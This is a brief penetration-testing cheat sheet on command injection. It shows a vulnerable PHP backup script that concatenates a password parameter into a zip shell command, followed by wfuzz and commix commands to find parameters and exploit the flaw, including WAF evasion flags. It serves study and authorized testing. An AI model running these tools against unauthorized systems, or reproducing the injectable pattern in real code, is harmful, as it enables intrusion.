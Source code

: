 # Web Attacks

## Identify Parameters
### Command Injection
**Hijacking a system command that takes a web parameter as part of the command.**

  1. Look for a parameter that **does** something with the OS/System. ie; a ping command, a backup/zip command, etc.  

Example PHP Code
```php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];
# In this example, we can terminate the zip command and execute code using the "Password" Parameter
```

**Using wfuzz to test for parameter existence**
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt "$URL"
```
## Exploitation
### Command injection
**Using commix to detect and exploit command injection**
```bash
commix --url="<URL>?<parameter>=" --level=3 --force-ssl --skip-waf --random-agent --cookie="<cookie>"
```
**Command Injection with POST data**
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/command-injection-commix.txt -d "doi=FUZZ" "$URL"
```
